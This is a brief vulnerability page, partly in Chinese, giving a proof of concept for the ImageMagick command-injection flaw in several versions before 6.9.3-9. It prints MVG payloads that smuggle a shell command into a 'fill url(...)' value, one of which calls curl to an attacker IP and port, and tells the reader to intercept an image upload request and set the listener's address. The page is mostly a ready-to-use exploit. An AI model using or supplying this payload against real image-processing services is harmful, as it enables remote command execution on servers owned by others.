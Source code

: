 <languages /> <translate>

漏洞影響
--------

</translate> mageMagick 6.5.7-8

ImageMagick 6.7.7-10

\<6.9.3-9 released

POC
---

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://"| command")'
    pop graphic-context

<translate> 圖片上傳點，抓包 </translate>

    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://"| curl 172.16.20.108:8888")'
    pop graphic-context

<translate> 修改IP和端口爲監聽機器的IP和端口。 </translate>